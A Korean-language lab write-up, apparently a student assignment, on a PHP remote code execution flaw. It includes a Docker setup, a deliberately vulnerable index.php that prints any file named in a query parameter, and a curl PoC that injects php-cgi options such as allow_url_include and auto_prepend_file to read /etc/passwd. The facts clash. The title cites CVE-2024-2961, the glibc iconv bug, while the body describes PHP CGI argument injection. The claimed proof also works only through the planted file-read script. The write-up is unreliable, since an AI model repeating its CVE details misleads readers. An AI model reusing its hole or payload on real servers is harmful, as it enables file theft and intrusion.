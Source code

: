 # PHP File Read to Remote Code Execution Through GNU C Library Iconv (CVE-2024-2961)

# 요약

---

# 1. 취약점 소개

- **CVE 번호:** CVE-2024-2961
- **취약점 이름:** PHP CGI Argument Injection
- **발견 시기:** 2024년 3월
- **영향 받는 버전:** PHP 5 ~ PHP 8.3.5 (특히 PHP 8.3.3, PHP 8.3.4)
- **공식 패치 버전:** PHP 8.3.6, PHP 8.2.18, PHP 8.1.28

---

### 1.1 취약점 상세 설명

PHP가 **CGI 모드**로 동작할 때, HTTP 요청에 특정 방식으로 파라미터를 삽입하면
**php-cgi 프로세스에 명령줄 옵션(arguments)** 을 주입할 수 있다.

공격자는 이 취약점을 통해:

- PHP 설정(allow_url_include, auto_prepend_file 등)을 강제로 조작하거나,
- 서버에 존재하는 파일을 읽거나,
- 원격에서 임의 코드를 실행(RCE)할 수 있다.

---

### 1.2 취약점 발생 원인

- php-cgi가 GET/POST 요청 파라미터를 처리할 때,
- 명령줄 인자처럼 해석하는 구조적 설계 결함이 존재했다.
- 이로 인해 `d`, `n`, `c` 등의 옵션을 외부에서 주입할 수 있었다.

---

# 2. 환경 구축 및 실행 방법

본 취약점 검증을 위해 Docker 기반의 로컬 환경을 구성하였다.

---

도커 환경에서 PHP 8.3.4 서버를 실행하기 위해 다음 명령어를 사용하였다.

```
docker compose up -d

```

서버가 시작된 후 브라우저에서 다음 URL을 통해 `/etc/passwd` 파일을 읽을 수 있다.

```html
http://your-ip:8080/index.php?file=/etc/passwd.
```

### **index.php**

```php
<?php
echo "File contents: ";
echo file_get_contents($_GET['file']);
?>
```

- 사용자의 GET 파라미터 `file`에 따라 서버 파일을 읽어 출력한다.
- "File contents:" 문구를 추가하여 PoC용 스크립트 통신 포맷에 맞추었다.

# 3. 익스플로잇

Linux 기반 시스템에서 Python 3.10 이상과 필요한 패키지를 설치한다.

---

**사전 준비**

```bash
pip install pwntools
pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
```

그런 다음 POC를 실행한다.

```bash
curl "http://127.0.0.1:8080/index.php?-d+allow_url_include=on+-d+auto_prepend_file=php://input&file=/etc/passwd"
```

요청을 통해 `/etc/passwd` 파일의 내용을 출력하는 데 성공하였다.

![image.png](image.png)

### 대응방안

- PHP를 최신 버전(8.3.6 이상)으로 업데이트
- CGI 모드 사용 지양
- 웹 서버, WAF 설정을 통해 위험한 파라미터 차단

# 정리

---

원본 https://github.com/lemi9090/vulhub/tree/master/php/CVE-2024-2961 에선 

shell.php 파일을 생성하여 phpinfo() 함수를 실행하는 과정까지 구현하였다.

하지만 본 과제 환경에서는 **php://filter**, **data:// wrapper** 기능이 제한되어 있어

shell.php 파일 생성 및 추가 실행은 실패하였다.

따라서, index.php를 수정하여 `/etc/passwd` 파일을 직접 읽는 방식으로

PoC를 재구성하고 성공적으로 취약점을 입증하였다.
